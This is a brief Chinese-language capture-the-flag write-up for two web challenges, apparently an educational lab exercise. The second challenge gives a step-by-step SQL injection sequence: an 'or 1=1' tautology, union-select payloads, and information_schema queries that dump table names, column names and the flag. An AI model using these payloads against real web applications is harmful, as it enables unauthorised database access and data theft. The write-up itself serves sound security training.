






## web1

+ 启动环境，右键检查元素，直接找到<code>flag</code>

## web2

+ 启动环境，根据提示这一关是<code>sql</code>注入，打开后发现有几个注入点

+ 注入万能语句，成功找到注入点

~~~ shell
1' or 1=1 #
~~~

+ 注入以下语句，得到回显的位置

~~~ shell
1' union select 1,2,3#
~~~

+ 联合查询，得到数据表名

~~~ shell 
1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database()#
~~~

+ 继续联合查询，得到字段名

~~~ shell
1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='flag'#
~~~

+ 最后爆破字段，得到<code>flag</code>

~~~ shell
1' union select 1,flag,3 from flag#
~~~

